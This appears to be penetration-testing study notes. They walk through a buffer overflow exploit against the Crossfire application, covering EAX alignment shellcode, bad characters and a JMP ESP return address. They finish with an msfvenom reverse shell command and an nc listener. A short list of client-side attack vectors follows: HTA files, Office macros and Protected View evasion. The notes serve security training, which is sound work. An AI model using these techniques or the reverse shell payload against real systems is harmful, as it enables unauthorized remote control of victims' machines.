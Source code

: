 	We find that EAX points to the beginning of our buffer, including the "setup sound" command
	What we can try to do is to use the 7 bytes pointed by ESP to inject first stage shellcode. This fist stage payload will be used to align the EAX register in order to make it point to our buffer right after the setup sound string and then to jump to that location, skipping the first undesired instructions.
	In order to achieve this, our first stage shellcode will need to increase the value of EAX by 12 bytes, as there are 12 characters in the string "setup sound"
	We can accomplish this with an ADD assembly instruction and then jump to the memory pointed to by EAX with a JMP instruction. In order to get the orrect opcode for these instructions, we can use the nasm shell utility provided by metasploit: 
		msf-nasm_shell
		nasm > add eax, 12
		00000000 	83C00C 		add eax, byte +0xc
		nasm > jmp eax 
		00000000 	FFE0 		jmp eax
	Luckily for us, these two instructions only take 5 bytes of memory.
	We update our python poc by including the first stage shellcode and repadding the original buffer with nops, in order to maintain the correct lenght.
	Our updated poc code is working perfectly: the EIP is overwritten with 4 Bs and our first stage shellcode is located at the memory address pointed to by the ESP register
Checking for bad characters:
	To find the list of bad characters for the Crossfire application, we send to it the complete set of characters (from 0x00 to 0xFF) and see if any of these bytes get changed, mangled, swapped or dropped by the application. This process is identical to the one followed during the development of a buffer overflow exploit under Windows. After doing that, we arrive to the conclusion that only \x00 and \x20 are bad characters for the Crossfire application 
Finding a return address:
	As a final step, we need to find a valid assembly instruction to redirect code execution to the memory location pointed to by the ESP register
	edb comes with a set of plugins, once of which is called "Opcode Searcher"
	Using this plugin we can easily search for a JUMP ESP instruction in the memory region where the code section of the Crossfire application is mapped. We proceed with the first JMP ESP instruction found by the debugger
	We can now update our python poc with the return address and run it. Indeed, we see that we land at our first stage shellcode, first stage that aligns the EAX with the dedired return address and then with the JMP EAX we land at our clean buffer of As. The only thing left to do is to insert a shellcode into out buffer of As
Getting a shell:
	All we need to do now is to generate a reverse shell payload with msfvenom and drop it at the beginning of our buffer of As
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py -v shellcode
	We now setup our local nc listener on port 443 and se send our exploit... BINGO!

##### Client-side Attacks
These attack vectors are particularly appealing for an attacker who does not have routable access to the victim's machine
Client-side attacks may require:
	Passive information gathering
	Active information gathering 
	Social engineering
	Client fingerprinting (for example with the fingerprintjs2 project on github)
Exploiting HTML applications:
	This attack vector (application file extension .hta) allows to write malicious HTML code and have it run on the victim machine outside of the security context of the victim's browser (for example enabling ActiveX and even more powerful PowerShell commands)
Microsoft Office applications
	Microsoft Word Macro
	Object linking and embedding (.bat files)
	Evading Protected View (if Microsoft Publisher is installed, since Publisher does not enable Protected View by default like Word or Excel)
